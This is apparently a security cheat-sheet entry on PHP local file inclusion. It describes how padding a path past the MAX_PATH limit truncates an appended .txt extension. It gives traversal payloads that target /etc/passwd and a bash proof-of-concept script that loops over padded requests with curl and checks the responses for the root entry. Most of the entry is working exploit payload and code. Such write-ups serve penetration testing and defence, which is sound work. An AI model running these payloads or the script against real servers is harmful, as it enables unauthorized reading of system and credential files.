 ###Nullbyte Alternative via Exceeding MAX_PATH values
####Note, only vulnerable on PHP systems

It is possible to reach the MAX_PATH limit and hence trunacate the last few characters present in the file inclusion. For example, if a PHP application has the following URL `test.php?file=1` and in the source, **always** appends .txt at the end of the user input for the file parameter:

`test.php?file=../etc/passwd` would evaluate to `../etc/passwd.txt` in the current directory.
`test.php?file=../../../../../[redacted]../../etc/passwd` would evaluate to `../../../../../[redacted]../../etc/passwd` in the current directory without the .txt as the MAX_PATH limit is reached and the .txt is no longer included at the end.

PoC:
Usage: `bash poc.sh "http://192.168.0.51/test.php?file="`
```
#!/usr/local/bin/bash  
file='/etc/passwd'   
str=`php -r "echo str_repeat('/..', 300);"`  
for ((i=1; i <= 100 ; i++)) do  
pre=$pre'n'  
URL="$1$pre$str$file"  
response=`curl -kis $URL | egrep "^root" | wc -l`  
if [ $response = 1 ]; then  
echo "Found: $URL";  
fi  
done 
```
Further reading:

[Another Alternative for the Nullbyte](http://blog.ptsecurity.com/2010/08/another-alternative-for-null-byte.html)